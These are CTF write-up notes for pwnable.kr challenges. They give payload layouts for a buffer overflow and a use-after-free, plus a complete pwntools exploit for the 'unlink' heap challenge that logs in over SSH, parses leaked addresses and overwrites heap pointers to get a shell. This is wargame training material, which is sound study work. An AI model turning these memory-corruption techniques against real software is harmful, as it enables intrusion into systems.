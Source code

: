 # pwn kr
  - bof(buffer overflow)
    - gdb 调试显示 距离 52 + address
    - payload = 52 * 'A' + address
  - uaf(use after free)
    - main中定义了两个类，然后输入3先free掉
    - 在输入2中输入payload, 因为use after free
    - 其中注意下introduce函数是按栈的顺序进行的， payload要注意这一点
    - 所以我们需要再次分配下
    - 再输入payload后，在输入1，即可运行我们的payload
    - [参考链接](http://blog.csdn.net/qq_20307987/article/details/51511230)
  - unlink
    - 因为是双链表结构，
    - 所以溢出之后还需要把溢出后的地址改一下
    - poc如下
```python
from pwn import *
context(log_level="debug")

shell_addr = 0x080484eb

s =  ssh(host='pwnable.kr',
         port=2222,
         user='unlink',
         password='guest'
        )
p = s.process("./unlink")
p.recvuntil("here is stack address leak: ")
stack_addr = p.recv(10)
stack_addr = int(stack_addr,16)
p.recvuntil("here is heap address leak: ")
heap_addr = p.recv(9)
heap_addr = int(heap_addr,16)
payload = p32(shell_addr)
payload += 'a'*12
payload += p32(heap_addr + 12)
payload += p32(stack_addr + 0x10)
p.send(payload)
p.interactive()
```
